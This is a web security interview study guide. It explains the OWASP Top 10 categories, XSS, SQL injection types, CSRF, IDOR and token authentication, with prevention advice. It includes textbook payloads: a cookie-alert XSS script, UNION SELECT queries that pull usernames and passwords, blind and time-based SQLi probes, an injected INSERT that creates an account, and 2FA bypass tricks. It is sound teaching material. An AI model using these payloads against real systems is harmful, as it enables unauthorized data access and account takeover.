

# Web Security Interview Questions

## 1. What is web security?

Web security involves using strategies and technologies aimed at protecting internet-connected systems, including web applications and services, from various malicious threats, as it's essential for businesses to prioritize safeguarding data and upholding user trust.

### Fundamental Security Principles

- **Confidentiality :** Ensuring that sensitive information is accessible only to authorized entities.
- **Integrity :**  Preserving the accuracy and trustworthiness of data.
- **Availability :** Making resources and services accessible when needed.


## 2. What are the common types of web attacks?

The common types of web attacks are as follows:

1. SQL Injection
2. Cross-Site Scripting (XSS)
3. Denial of Service (DoS)
4. Phishing
5. Brute Force


## 3. What is OWASP?

The Open Web Application Security Project, or OWASP, is an international non-profit organization whose sole purpose is to improve software security.OWASP provided knowledge about the tactics that hackers use and how to fight them.

## 4. What is the OWASP Top 10? and why is it important for web application security?

OWASP Top 10 provides information about the 10 most critical security risks for applications at the time of the study. These risks represent common vulnerabilities and weaknesses that are frequently exploited by attackers and cause the most damage.

The OWASP Top 10 is crucial for web app security because it identifies common vulnerabilities, guides proactive measures, and helps prioritize efforts to protect applications from cyber threats.It’s important to note that the items featured in the list are not vulnerabilities, but categories


- The first version of the OWASP Top 10 List was released in 2003.

- Subsequent updates were made in 2004, 2007, 2010, 2013, 2017, and most recently in 2021. We are currently using the 2021 version.

### **The OWASP Top 10 (2021) Categories are**

    1.  Broken Access Control
    2.  Cryptographic Failures
    3.  Injection
    4.  Insecure Design
    5.  Security Misconfiguration
    6.  Vulnerable and Outdated Components
    7.  Identification and Authentication Failures
    8.  Software and Data Integrity Failures
    9.  Security Logging and Monitoring Failures
    10. Server-Side Request Forgery
   
### Now, I will explain each OWASP Top 10 category one by one. Let's start with Broken Access Control.

## 5. Explain Broken Access Control (First on the OWASP list)

Broken Access Control is a security vulnerability that occurs when a web application fails to properly enforce restrictions on what authenticated users are allowed to access. This vulnerability allows attackers to access unauthorized functionality or data, such as sensitive files, administrative features, or other users' accounts.

**Example** : Suppose In a banking application, users can access their account details via URLs like `http://example.com/account?id=123`. . However, the application fails to enforce access controls, allowing any logged-in user to view other users' accounts by simply changing the ID parameter in the URL like `http://example.com/account?id=456`.

In this scenario, the application lacks proper access control mechanisms to ensure that users can only access their own account information. This vulnerability could lead to unauthorized access to sensitive financial data and potentially compromise the privacy and security of the affected users.

### 6. What are the Impact of Broken Access Controls?

When access controls fail, organizations face risks such as data breaches, which can lead to identity theft and financial loss. Compliance violations are another concern, potentially resulting in fines for failing to meet regulatory requirements. Additionally, broken access controls can cause operational disruptions, leading to downtime and financial losses.

### 7. How to Prevent Broken Access Control

1.  Secure Session Management and Authentication Controls

2. Secure file systems by disabling directory listings and protecting file metadata.

3. Maintain logs of access control failures and promptly notify administrators.

4. Implement rate limiting across all system components to prevent automated attack attempts.

5. Regularly review and update access control policies

## 8. Explain Cryptographic Failures. (Second on the OWASP list)


Cryptographic failures refer to weaknesses or vulnerabilities in the implementation or usage of cryptographic algorithms and protocols.This can expose sensitive data to attackers, such as passwords, credit card numbers, and personal identification numbers. Cryptography is commonly used in computer systems to secure data transmission, protect sensitive information, and ensure the integrity and authenticity of data.

**Example** : Uses a weak encryption algorithm to store user passwords in its database.

### 9. What is the Impact of Cryptographic Failure?

Cryptographic failures significantly compromise application security and data integrity, enabling attackers to steal and manipulate sensitive information, leading to fraud and identity theft. Attackers exploit vulnerabilities such as stolen encryption keys or man-in-the-middle attacks to compromise data, potentially exposing entire databases. This can result in breaches, public exposure, and severe business-related issues. For instance, if an attacker gains an admin's credentials, they could seize control of a server, leading to reputation damage, financial losses, and legal consequences. Addressing cryptographic vulnerabilities is crucial to mitigate these risks and protect against catastrophic outcomes.

### 10. How to Mitigate Cryptographic Failures?

1. **Use strong encryption algorithms** : Make sure to use modern and secure encryption algorithms such as AES (Advanced Encryption Standard) for encrypting sensitive data.

2. **Implement proper key management** : Generate unique encryption keys for each data set and ensure they are securely stored and rotated regularly.

3. **Use secure protocols** : Always use secure communication protocols such as HTTPS to transmit sensitive data over the internet.

4. **Regularly update cryptographic libraries** : Keep your cryptographic libraries up to date to ensure you are using the latest security patches and algorithms.

5. **Conduct regular security audits** : Regularly audit your cryptographic implementations to identify any potential vulnerabilities and address them promptly.

## 11.  What are injection attacks? (Third on the OWASP list)

In an injection attack, the attacker is able to provide malicious input to a web application. The application processes this malicious input, which causes the application to behave in an unexpected way. For example, it may reveal information that should not be revealed, give the user permissions that the user should never have, or run harmful code on the server or on the client.

**Example** : SQL Injection

Imagine a web application that uses user input to construct an SQL query to fetch data from a database. The application allows users to search for products by entering keywords. The SQL query might look like this:
```
SELECT * FROM products WHERE name = 'user_input';
```
Now, suppose an attacker enters the following input into the search field: `' OR 1=1 --` Then The resulting SQL query becomes:
```
SELECT * FROM products WHERE name = '' OR 1=1 -- ';
```

In this modified query: 
- The single quote ' closes the string that the application expects for the product name.

- The OR 1=1 condition always evaluates to true, effectively bypassing any additional conditions in the original query.

- The double dash -- indicates a comment in SQL, causing the database to ignore the rest of the query.

As a result, the application retrieves all rows from the products table, effectively exposing all product data to the attacker.This example demonstrates how an attacker can manipulate input to inject malicious SQL code into a web application, leading to unauthorized access to sensitive data.
    
### 12. How to Prevent Injection Attacks?

1. **Use Parameterized Queries and Prepared Statements** : Ensure that SQL queries use parameterized queries or prepared statements to separate data from code and prevent SQL injection.

2. **Implement Input Validation and Sanitization** : Validate and sanitize all user inputs to ensure they meet the expected format and reject any suspicious or unexpected inputs.

3. **Use ORM Frameworks** : Utilize Object-Relational Mapping (ORM) frameworks to avoid direct query execution, as these frameworks handle parameterization and help prevent injection attacks.

4. **Perform Regular Code Reviews and Security Testing** : Conduct regular code reviews and security testing to identify and fix vulnerabilities in your application.


## 13. Can you explain Insecure Design? (Fourth on the OWASP list)

Insecure Design is a new category in the latest OWASP Top Ten list, capturing a wide range of vulnerabilities that arise from poor design choices in web applications.

There is a difference between **Insecure Design and Insecure Implementation**. Insecure design refers to fundamental flaws in a system's architecture, while insecure implementation relates to coding errors. For example, a developer might secure user inputs and update libraries, ensuring a secure implementation. However, if they leave an admin login page with default credentials, the application still has an insecure design, easily exploitable by attackers.

**Common examples of insecure design in web applications include** :

1. **Lack of Least Privilege** : Failing to restrict user permissions to only what is necessary for their role, leading to potential misuse of privileges.

2. **Allowing Brute Force Attempts** : Not implementing protections against repeated login attempts, leaving the application vulnerable to password guessing attacks.

3. **Exploitable Processes** : Designing processes or workflows that can be easily manipulated or abused by attackers to gain unauthorized access or perform malicious actions.

### 14. How to prevent Insecure Design vulnerabilities?

To prevent insecure design in web applications, organizations should adopt a comprehensive approach by:

1. Implementing a secure software development lifecycle (SDLC) with security assessments at every stage.

2. Providing regular security training to developers and conducting code reviews and security testing.

3. Following the principle of least privilege by granting users only the minimum access necessary for their tasks.

4. Implementing strong authentication mechanisms, access controls, and input validation.


## 15. Explain Security Misconfiguration? (Fifth on the OWASP list)

Security misconfiguration refers to the improper setup or configuration of a system, application, or network that leaves them vulnerable to security threats. It occurs when security settings are not properly defined, implemented, or maintained, thereby creating potential weaknesses that attackers can exploit. These misconfigurations can occur at various levels, including operating systems, web servers, databases, cloud services, firewalls, and application frameworks.

**Example** : Imagine you park your car but forget to lock the doors. Even though your car has advanced security features, leaving the doors unlocked makes it easy for anyone to just open the door and steal your belongings or the car itself.

**Tech Example** : This is similar to leaving important web application directories unprotected. If your server’s admin directories (e.g., /admin, /config, /backup) are not properly secured, an attacker can easily access them and exploit the information or functions available there.

In both cases, the advanced security features are rendered ineffective because of a basic oversight in configuration, leaving the system exposed to potential threats.

**Impacts of security misconfiguration** :  Security misconfigurations can allow attackers to gain unauthorized access to networks, systems, and data, which can cause significant monetary and reputational damage to your organization.

### 16. How to prevent security misconfigurations?


1. **Implement Hardening Processes** : Hardening is the process of securing a system by reducing its vulnerability. Establish a hardening process that is repeatable and automated to quickly deploy uniformly configured environments, ensuring distinct passwords for added security.

2. **Change Default Settings** : Default usernames and passwords are often easy for attackers to guess. Make sure to change these defaults during setup and use strong, unique credentials. This is like changing the locks when you move into a new house – you wouldn’t want the old keys to still work!

3. **Keep Software Updated** : Regularly update and patch all software to address security vulnerabilities, similar to servicing a car for optimal performance and safety.

4. **Implement Least Privilege Principle** :  Grant minimal access to users and processes, limiting permissions to only what's necessary. This reduces the risk of security breaches, similar to restricting access to certain areas in your home for guests.

5. Disable unnecessary features, services, and accounts.


## 17. Explain Vulnerable and Outdated Components. (Sixth on the OWASP list)

**Explanation of Vulnerable and Outdated Components** : When developers create applications, they often rely on third-party libraries or packages to streamline development. However, if these components become outdated or contain serious vulnerabilities, it can impact not only the developers but also their customers and application users.

**Vulnerable and Outdated Components** : These refer to third-party libraries or frameworks used in web applications that have known vulnerabilities or are no longer supported by their developers. When these components are integrated into an application, they can create security risks. Attackers may exploit these vulnerabilities to gain unauthorized access to sensitive data or take control of the system.

**Example** : One notable example is the WannaCry ransomware attack that affected thousands of computers worldwide in 2017. The attackers exploited a vulnerability in Microsoft Windows, known as EternalBlue, which had been patched months before the attack. However, many systems remained vulnerable due to a lack of updates, allowing the ransomware to spread rapidly.

### 18. What are the prevention techniques of vulnerable and outdated components?

1. Remove unused dependencies, unnecessary features, components, files, and documentation.

2. Track client-side and server-side component versions and dependencies using tools like OWASP Dependency Check and retire.js. Stay updated on vulnerabilities by monitoring sources like CVE and NVD. Subscribe to email alerts for security issues related to your components. This proactive approach helps identify and mitigate security risks associated with outdated or vulnerable components.

3. Only obtain components from official sources over secure links. Prefer signed packages to reduce the chance of including a modified, malicious component

4. Monitor for libraries and components that are unmaintained or do not create security patches for older versions. If patching is not possible, consider deploying a virtual patch to monitor, detect, or protect against the discovered issue.

5. Use tools to track and manage software dependencies.


## 19. Can you explain what is Identification and Authentication Failures? (Seventh on the OWASP list)

Identification and authentication failures are security vulnerabilities that can occur when a system or application fails to identify or authenticate a user correctly. This can allow attackers to gain unauthorized access to systems and data. 

Some of the most common identification and authentication failures examples are:
1. Weak Or Reused Passwords
2. Brute-Force Attacks
3. Credential Stuffing
4. Missing Or Weak Multi-Factor Authentication (MFA)
5. Unvalidated Redirects And Forwards

**Example** : Attackers were able to exploit a vulnerability in Microsoft Exchange Server to gain access to organizations' email systems. By exploiting the ProxyLogon vulnerability, attackers remotely executed code on compromised Exchange servers. Initially, they sent crafted requests to the server, leveraging weaknesses in identification and authentication processes. Once authenticated, they were able to implant malware, extract sensitive data, and assert control over the servers.

### 20. How to Prevent Identification and Authentication Failures?

1. Whenever possible, use multi-factor authentication to prevent automated attacks like credential stuffing, brute force, and the reuse of stolen credentials.

2. Avoid using default credentials, especially for administrative users, when shipping or deploying systems.

3. Implement checks to identify weak passwords, such as screening new or changed passwords against a list of commonly used passwords.

4. Enforce strong password policies to encourage users to create secure passwords.

5. Implement measures to limit repeated failed login attempts, such as setting restrictions on the number of tries or increasing the time between attempts. Ensure these measures do not unintentionally disrupt system functionality. Keep detailed logs of all failed login attempts and promptly alert administrators if suspicious activity, like credential stuffing or brute force attacks, is detected.


## 21. Explain Software and Data Integrity Failures. (Eighth on the OWASP list)

Software and data integrity failures are vulnerabilities in software or infrastructure that allow an attacker to modify or delete data in an unauthorized manner. This can occur due to weaknesses in the software itself or inadequate security measures implemented during development. Attackers can exploit these vulnerabilities to gain access to sensitive information or manipulate data andcause damage to the system.

The impact of software and data integrity failures can be severe. It can result in financial losses, reputational damage, legal liabilities, loss of customer trust, etc.

### 22. How to Prevent Software and Data Integrity Failures.

1. Utilize digital signatures or similar mechanisms to verify the authenticity and integrity of software or data, ensuring it originates from the expected source and has not been tampered with.

2. Employ a software supply chain security tool, such as OWASP Dependency Check or OWASP CycloneDX, to regularly scan and verify that software components are free from known vulnerabilities.

3. Conduct frequent penetration testing (pentesting) of your software to identify and address security vulnerabilities, ensuring robust protection against potential exploits.

4. Manage software dependencies carefully, keeping track of libraries and components used in your applications and ensuring they are regularly updated and securely maintained.


## 23. Explain Security Logging and Monitoring Failures. (Nineth on the OWASP list)

Security Logging and Monitoring Failures: While these issues may not directly lead to vulnerabilities, proper logging and monitoring are crucial for digital protection. If logging and monitoring systems fail or are absent, visibility, incident alerting, and forensics can be compromised. Therefore, it's essential to have a functional logging and monitoring system in place to collect logs and provide alerts in the event of malfunctions or errors. Otherwise, problems might go unnoticed for a while, leading to further harm to digital systems.

### 24. How Can You Protect Against Security Logging and Monitoring Failures? 

1. Ensure comprehensive logs are generated, capturing essential security events, including user authentication, access control, and data manipulation. This allows for effective tracking and detection of any malicious activities. 

2. Implement a process to regularly review and analyze logs with both automated tools and manual inspection to detect possible security incidents and emerging threats.

3. Set up real-time monitoring and alerting systems to detect and respond to security events swiftly to lessen the impact of attacks and prevent potential breaches. 

4. Securely store and protect log files to ensure their integrity and confidentiality, including measures to prevent tampering and unauthorized access, preserving the reliability of the logged data. 


## 25. What is SSRF? (Tenth on the OWASP list)

A Server-Side Request Forgery (SSRF) attack occurs when an attacker manipulates URLs to access or modify resources via server functionality. This involves targeting applications that support data imports from URLs or allow reading data from URLs. By exploiting URL manipulation, attackers can access internal data and services not intended for exposure.

### 26. Impact

1. Unauthorized access within the organization, and it's internal networks.
2. Arbitrary command execution.
3. Legal liabilities and reputational damage.


### 27. Mitigation

1. Whitelist Allowed URLs
2. Disable Unused URL Schemas
3. Implement URL validation and input sanitization to block malicious requests.
4. Enforce network segmentation to restrict SSRF attack surface and limit access to sensitive resources.


## 28. What are the changes between the OWASP 2017 & 2021 version?

- For the 2021 list, the OWASP added three new categories and added in two categories

    **New**

    **1. Insecure Design**

    **2. Software and Data Integrity Failures**

    **3. Server-Side Request Forgery ( SSRF )**

    **Added**

    **1. Injections**

    - The new OWASP Top 10 Update also contains the vulnerability Cross Site Scripting (XSS) in injection because This vulnerability is fundamentally an injection as well.

    **2. Security Misconfiguration**

    - The new OWASP Top 10 Update also contains the vulnerability XML External Entities (XXE) in Security Misconfiguration because neglecting proper configuration of XML parsers can lead to exploitable vulnerabilities, enabling attackers to leverage external entities for unauthorized data access or manipulation. 

    


###  What is your favourite OWASP Top 10 vulnerability?

## Cross-Site Scripting (XSS)
My favorite OWASP Top 10 vulnerability is Cross-Site Scripting (XSS)

## 29. what is XSS?
Cross-site scripting (XSS) occurs when a website allows user input, such as comments, without proper filtering or sanitization. This vulnerability enables attackers to inject malicious scripts, potentially leading to cookie theft or website manipulation. For example, if a user inputs HTML tags like ` <b>This is bold</b> ` and the website processes it as code instead of text, it becomes vulnerable to XSS. Now There is a tag in HTML called the script tag, which serves as a JavaScript container within HTML where you can write JavaScript code directly into the HTML document. Attackers can exploit this by injecting scripts such as `<script>alert(document.cookie)</script> ` into comments, allowing them to steal legitimate user cookies and gain unauthorized access.


### 30. Why XSS?

Because the majority of applications use JavaScript, and XSS is a JavaScript-based issue. In XSS, the attacker is able to inject arbitrary JavaScript code into a web application, which the web application then executes. which can lead to various security issues. This can include stealing sensitive information like login credentials, session tokens, or personal data.

### 31. what is cookies?

Cookies act as our digital identity when we browse websites. They store session information in the browser. However, if someone steals our cookie through XSS, they can also establish a session or log in as us.


### 32. Root cause of XSS.

- Lack of proper input validation and output encoding in web applications.

### 33. Explain the types of XSS.

### **There are three primary types of XSS attacks:**

1. **Reflected XSS :** Occurs when an attacker injects a malicious script into a web application, which then gets reflected back to the user in a response from the server. The script executes in the victim's browser when they interact with a specially crafted link or input, initiating the attack.

2. **Stored XSS :** Involves an attacker injecting a malicious script that gets stored persistently on the web server. When other users access the affected page containing this stored script, it executes in their browsers, potentially causing harm.

3. **DOM-based XSS :** This type occurs when a malicious script is injected into the Document Object Model (DOM) of a web page. Unlike other XSS types, it doesn't necessarily involve server-side processing instead, the attack happens entirely on the client-side within the victim's browser.


### 34. Difference Between Ordinary XSS and DOM Based XSS:

The main difference between ordinary XSS and DOM-based XSS lies in where the vulnerability occurs and how the malicious script is executed. Ordinary XSS involves injecting malicious scripts into server-generated content that is then sent to the victim's browser, while DOM-based XSS involves manipulating client-side JavaScript code to execute the malicious payload.

### 35. Prevention

- Encode all user-supplied data to render it safe
- Content Security Policy (CSP)
- HTTPOnly and Secure Cookies

### 36. XSS Payloads

```
<script>alert(document.cookie)</script>
```

- If alert is blocked, then confirm, prompt, print can be used as a payload.

### 37. What can be achieved by XSS?

- Since we can load and run our own JavaScript in the web application, we're able to steal user cookies, potentially leading to an Account Takeover (ATO) scenario.


### 38. Impact of XSS.

- Session hijacking, phishing attacks, cookie theft, defacement of web pages or malware distribution.

### 39. How will you fix/mitigate XSS? Or Prevention of XSS?

- **Using modern web development frameworks** : like ReactJS and Ruby on Rails also provides some built-in cross-site scripting protection.
- **If possible, avoiding HTML in inputs** - One very effective way to avoid persistent cross-site scripting attacks is to prevent users from posting HTML into form inputs
- **Validating inputs** - Validation means implementing rules that prevent a user from posting data into a form that doesn’t meet certain criteria. 
- **Setting WAF rules** - A WAF can also be configured to enforce rules which will prevent reflected cross-site scripting. 
- **Data Encoding** : Encoding user-provided data before rendering it prevents browsers from interpreting it as executable code,thereby mitigating the risk of malicious injections.
- Use Content Security Policy (CSP) headers which allows websites to define trusted sources for content
- Use HTTPOnly and Secure Cookies which ensure that cookies are transmitted only over secure (HTTPS) connections.


### 40. What is the difference between XSS and CSRF?

XSS involves injecting malicious code into a website to target its users, while CSRF involves inducing a victim user to perform actions they do not intend to do.

### 41. What is the difference between XSS and SQL injection?

XSS is a client-side vulnerability that targets other application users, while SQL injection is a server-side vulnerability that targets the application's database.


## 42. What is Authentication Bypass?

Attacker can bypass the username password or authentication/login flow of the website. By exploiting this vulnerability, they can gain complete access to any user's account. It is considered to be a dangerous and high severity attack.

### Different Types of Auth Bypass :

1.  **Login Bypass** : in this we generally do username and password bypass
2.  **Response Manipulation** : (false to true) , ( 0 to 1 )
3.   **OTP bypass** : which will be done by brute forcing
4. **Bypass 2FA with null or 000000** : Enter “null” in 2FA code -> Enter 000000 in 2FA code -> Send empty code in 2FA code.


## 43. What's the difference between SAST & DAST?

1. **SAST** : SAST is known as Static Application Security Testing. SAST is white-box testing that looks for vulnerabilities inside the application and code

2. **DAST** : DAST is known as Dynamic Application Security Testing. DAST is black-box testing that looks for vulnerabilities that could allow an outside attacker to get in.

## 44. What is SQLi? Type of SQLi? Preventions of SQLi?

SQL injection (SQLi) is a type of injection attack where an attacker can manipulate a database by injecting malicious SQL queries through an application's input fields, such as forms or URL parameters. SQL injection vulnerabilities can be exploited by attackers to bypass authentication and retrieve, modify or delete data from the database.

### 45. Type of SQLi

### **`In-band SQLi`**

- **In-band SQLi** : In-band SQLi occurs when attackers use the same communication channel to launch their attacks and retrieve results.

     1. **Error-based SQLi** : When an attacker inject malicious SQL queries through an application's input fields that cause the database to produce error messages. Attackers can use these error messages to gather information about the database structure.

        **Example** : Suppose a website's URL accepts a parameter for a required item, such as:
        ```
        https://example.com/index.php?item=123
        ```

        An attacker might attempt to inject various SQL commands into the input parameter, such as single quotes ('), double quotes ("), hash symbols (#), colons (;), and others. If the database returns an error message like "You have an error in your SQL syntax,"  then the attack is considered successful.

        **Example URL with injection** :
        ```
        https://example.com/index.php?item=123'
        ```

    2. **Union-based SQLi** : UNION-based SQLi, the attacker uses the UNION SQL operator to combine the results of two or more SELECT statements into a single result.

        **Example** : A website's search feature is vulnerable to SQL injection. An attacker wants to retrieve user credentials from the users table.

         1. **Determine Column Count** : Inject payloads to find the number of columns in the original query:

            ```    
            1. ' UNION SELECT 1--
            2. ' UNION SELECT 1,2--
            3. ' UNION SELECT 1,2,3-- (returns an error, it indicates the original query has two columns.)
            ```
        

        2. **Identify Columns for String Data** : Inject payloads to find which columns can hold string data

            ```
            ' UNION SELECT 1,'a'-- (If this query succeeds, it indicates the second column can hold string data.)
            ```
    
        3. **Craft Payload to Retrieve Data** : Construct a payload to retrieve user credentials

            ```
            1. ' UNION SELECT 1, username, password FROM users--
            ```
            **Complete URL look like this** : 
            ```
            https://example.com/search.php?category=1 UNION SELECT 1, username, password FROM users--
            ```

            By executing this, the attacker can combine the product data with the usernames and passwords from the users table, allowing them to steal sensitive information.


### **`Inferential SQLi (Blind SQLi)`**

- **Blind SQLi** : Blind SQL injection arises when an application is vulnerable to SQL injection, yet its HTTP responses don't disclose the results of the SQL query or any database errors. While it may take longer for an attacker to exploit, no data is directly transferred via the web application, and the attacker cannot view the attack results. Instead, the attacker reconstructs the database structure by sending payloads.

    1. **Boolean-based Blind SQLi** : Makes the database return different results based on whether the injected condition is true or false.

        **Example** : Let's say a website's login form is vulnerable to SQL injection, and an attacker wants to verify if the user 'admin' exists. They can use payloads that generate different responses based on the truth of the condition.

        ```
        ' OR '1'='1'-- (true condition)
        ' OR '1'='2'-- (false condition)
        ```
        If responses differ, it confirms that the web application is vulnerable to blind SQL injection. By exploiting true and false conditions, attackers can retrieve database information.

        Attackers retrieve the payload length from true or false responses, e.g., `http://example.com/index.php?id=1' AND (length(database())) = 1 --+`. If false, the length of the database string is not equal to 1, and the attacker continues until obtaining the actual length of the database. After determining the database length, they proceed to find the first letter of the database name and continue this process until they retrieve the complete database name and so on.

    2. **Time-based Blind SQLi** : Delays the server's response to reveal information based on whether a condition is true or false.

        **Example** : Suppose a website's search feature is vulnerable to SQL injection. An attacker wants to determine if the database contains a specific table called 'users'. The attacker can use a payload that delays the response if the condition is true:

        ```
        ' OR IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0)--
        ```

        If the server's response is delayed, it indicates the condition is true, allowing the attacker to infer the existence of the 'users' table.

### **`Out-of-band SQLi`**

1. **Out-of-band SQLi** : Out-of-band SQL Injection occurs when the result of the attacker’s activities is received using another channel (for example, sent to another server)

    - An example of Out-of-band SQL Injection would be injecting SQL code into an email field of a vulnerable application to extract data. For instance, the attacker could use a payload like:

    ```
    '; SELECT * FROM users; --'
    ```
    When the application processes this input and sends the extracted data, the attacker receives it via a separate channel, such as an email sent to their controlled server.

### **`Second-Order-Injection`** 

1. **Second-Order-Injection** : Second-Order Injection, also known as stored SQL injection, is a type of SQL injection attack where the payload is stored in the application's database, and the malicious code is executed later when the data is used in a query.

    **Example** : Suppose there's a web application where users can submit reviews for products. The application stores these reviews in a database and later displays them on the product page. The review submission form has a field for the user's name and another for the review text.
    
    An attacker submits a review with their name containing a SQL injection payload, such as:

    ```
    Name: John'); INSERT INTO users (username, password) VALUES ('hacker', 'password'); --
    ```

    The application stores this review in the database without executing the payload immediately. Later, when the product page displays all the reviews, the injected SQL code is executed, resulting in the insertion of a new user ('hacker') into the 'users' table.

### 46. Prevention
	
- Parameterized Queries
- Using stored procedures
- Whitelist Input Validation
- Escaping All User Supplied Input

### 47. Impact

A successful SQL injection attack can result in unauthorized access to sensitive data, such as: Passwords. Credit card details. Personal user information.


## 48. What is Broken Authentication?

Broken authentication is a security vulnerability that occurs when a application does not properly implement authentication mechanisms, allowing attackers to compromise user accounts or gain unauthorized access to sensitive data or functionality.


### 49. Prevention

- Implement Multi-factor Authentication
- Create Strong Password Policies


## 50. What is IDOR?

Insecure Direct Object References (IDOR) are a type of access control vulnerability where an attacker can exploit IDOR by manipulating direct references to these objects, typically found in URLs, form parameters, or API endpoints, to gain unauthorized access to sensitive data or operations.

In simpler terms, IDOR allows attackers to access or manipulate resources they're not supposed to by directly referencing them, bypassing any access controls or authorization mechanisms that should be in place.

For example, imagine a web application where users can view their own profile by accessing a URL like example.com/profile?id=123. If the application fails to verify that the user making the request is authorized to view the profile with ID 123, an attacker could change the ID parameter to view other users' profiles, potentially exposing sensitive information.

**Prevention** : To prevent IDOR vulnerabilities, developers should implement proper access controls and authorization checks to ensure that users can only access resources they're authorized to access. This often involves validating user input, enforcing least privilege principles, and using indirect references or tokens instead of direct object references. Regular security testing and code reviews can also help identify and remediate IDOR vulnerabilities in applications.

## 51. What is the difference between authentication and authorization?

Authentication is  the process of verifying the identity of a user through their credentials (such as username and password etc.). On the other hand, authorization involves determining what actions or resources a user is allowed to access or perform after their identity has been authenticated.


## 52. What is CSRF?

### Two conditions for CSRF

1. Users should be logged in.
2. User should click on our poc

CSRF attacks typically occur when a user is logged in to a website and the attacker tricks the user into clicking a malicious link or visiting a malicious website. Through social engineering tactics, attackers can deceive users into performing actions chosen by the attacker. For regular users, CSRF can result in unauthorized actions like fund transfers or email changes, while for administrative accounts, it can compromise the entire web application.


### 53. Impact

- Complete compromise of the web application, if the victim is an administrative account
- Bypassing protection mechanism
- Reading or modifying application data

### 54. Mitigation

- CSRF tokens help prevent CSRF attacks because attackers cannot make requests to the backend without valid tokens. Each CSRF token should be secret, unpredictable, and unique to the user session. 

## 55. Difference between CSRF vs SSRF?


While SSRF and CSRF both involve unauthorized requests, they differ in their targets and impact. SSRF attacks exploit the server's functionality, often aiming to compromise the internal network and access sensitive resources. Conversely, CSRF attacks exploit the user's session with a web application, causing unauthorized actions to be executed on the user's behalf.


## 56. Why we need Token-Based Authentication?

Traditional methods rely on single-level authentication, which required only a username and password to grant access to web resources. Users tend to keep easy-to-guess passwords, which are vulnerable to brute-force attacks by hackers, or they reuse the same password on multiple platforms for their convenience. As security concerns grow, two-factor authentication (2FA) has come into the picture and introduced token-based authentication.


## 57. What is an Authentication Token? 

A Token is a computer-generated code that acts as a digitally encoded signature of a user. They are used to authenticate the identity of a user to access any website or application network.

- Types of Token
    - physical tokens
        - Hard tokens
        - Soft tokens
    - Web/digital token

### **`Two elements of physical tokens`**

- **Hard tokens** : Hard tokens are hardware items like smart cards and USB to grant access to the restricted network like the one used in corporate offices to access the employees.

- **Soft tokens** : Soft tokens involve entering a secret code or message sent to a device to prove possession of the device. They send an encrypted code (like OTP) via authorized app or SMS to a smartphone.

### **`web token`**

- The authentication via web token is a fully digital process. Here, the server and the client interface interact upon the user’s request. The client sends the user credentials to the server and the server verifies them, generates the digital signature, and sends it back to the client. Web tokens are popularly known as JSON Web Token (JWT), a standard for creating digitally signed tokens.


## 58. What is a Token-based Authentication?


Token-based authentication is a two-step authentication strategy to enhance the security mechanism for users to access a network. The users once register their credentials, receive a unique encrypted token that is valid for a specified session time. During this session, users can directly access the website or application without login requirements. A token is stateless as it does not save information about the user in the database. Actually This system is based on cryptography where once the session is complete the token gets destroyed.

- **Example** : The most friendly example of the token is OTP (One Time password) which is used to verify the identity of the right user to get network entry and is valid for 30-60 seconds. During the session time, the token gets stored in the organization’s database and vanishes when the session expired. 

## 59. How Does Token Based Authentication Works?

**Token based Auth is a two-step process**

1. Client sends credentials to the server.
2. Server respond backs with a token. 
- Later to access the resource only this token is needed.

## 60. What are business logic vulnerabilities?

Business logic vulnerabilities are flaws in how an application is designed or implemented, allowing attackers to misuse its intended functions. These flaws arise when developers fail to anticipate and handle unusual application states safely, leading to unintended behavior.

The term "business logic" refers to the set of rules that define how the application operates. Since these rules aren't always directly related to a business, the associated vulnerabilities are also known as "application logic vulnerabilities" or simply "logic flaws."

**Example** : Imagine an online store where customers can apply discount codes to their orders. The intended function is for each discount code to be used only once per customer. However, due to a logic flaw, the system doesn't properly track the usage of discount codes. An attacker discovers this and repeatedly uses the same discount code on multiple orders, significantly reducing the cost of their purchases without authorization. This flaw allows the attacker to bypass the intended rules, leading to financial loss for the store.

## 61. What are the most common business logic issues?

1. **Coupon Code Reuse** :

    - **Scenario** : A user is able to use a single-use coupon code multiple times, significantly reducing the cost of purchases each time they check out.
    - **Impact** : This leads to financial losses for the business as the intended one-time discount is applied repeatedly.

2. **Coupon Code Reuse in Demo Accounts/Services** :

    - **Scenario** : An attacker creates multiple demo accounts and repeatedly uses the same coupon code or promotional offer, gaining financial benefits or free services each time.
    - **Impact** : This exploits the demo account system, resulting in loss of revenue and potentially overwhelming the service.

3. **Abusing Applications with Organization Emails** :

     - **Scenario** :  An attacker registers multiple accounts using different email addresses from the same organization (e.g., using variations like john.doe+1@company.com, john.doe+2@company.com) to exploit premium service offerings.
     - **Impact** : This circumvents the limit on premium services intended for unique users, leading to revenue loss and unfair usage of resources.
    
4. **Product Inventory Manipulation on Sale Day** : 

    - **Scenario** : Attackers add all products to their carts on a platform like Amazon before a big sale, causing the inventory to appear empty. Legitimate users are then unable to purchase these products as they are marked out of stock.
    - **Impact** :  This disrupts sales, frustrates legitimate customers, and causes potential revenue losses and reputational damage.

### 62. How to prevent business logic vulnerabilities?

To prevent the most common business logic vulnerabilities:

1. **Thorough Requirements Analysis** : Clearly understand and validate business rules.
2. **Input Validation** : Strictly validate and sanitize user inputs to prevent injection attacks and data manipulation.
3. **Access Control** : Enforce fine-grained access control to restrict user access based on roles and privileges.
4. **Session Management** : Implement secure session handling techniques to prevent session hijacking and fixation attacks.
